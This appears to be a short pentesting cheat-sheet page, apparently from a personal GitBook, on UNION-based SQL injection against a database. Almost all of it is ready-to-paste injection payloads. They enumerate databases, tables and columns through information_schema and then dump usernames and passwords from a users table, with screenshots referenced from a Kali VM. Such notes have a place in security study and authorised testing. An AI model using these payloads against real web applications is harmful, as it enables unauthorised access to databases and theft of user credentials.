 # Listing db, table and columns

## Listing databases

' UNION select schema\_name, NULL from information\_schema.schemata-- -

<figure><img src="../../.gitbook/assets/2024-02-15 07_46_48-kali-linux-2022.4-virtualbox-amd64 [Corriendo] - Oracle VM VirtualBox _ 1.png" alt=""><figcaption></figcaption></figure>

The last command dumps all databases, we'll know try to enumerate each one of those DB's till we find some sensitive data like users or passwords.

## Listing tables:

' UNION select table\_name, NULL from information\_schema.tables where table\_schema = 'public'-- -



## Listing all the tables

' union select table\_name, NULL from information\_schema.tables-- -

## Listing columns:

' UNION select NULL, column\_name from information\_schema.columns where table\_schema='DB' and table\_name='table'-- -'

<figure><img src="../../.gitbook/assets/enumerating columns sql.png" alt=""><figcaption></figcaption></figure>

## Listing data:

## Option#1

\
' union select username,password from users-- -

## Option 2

' union select NULL,group\_concat(username,';',password) from users-- -

<figure><img src="../../.gitbook/assets/2024-02-15 13_21_28-.png" alt=""><figcaption></figcaption></figure>
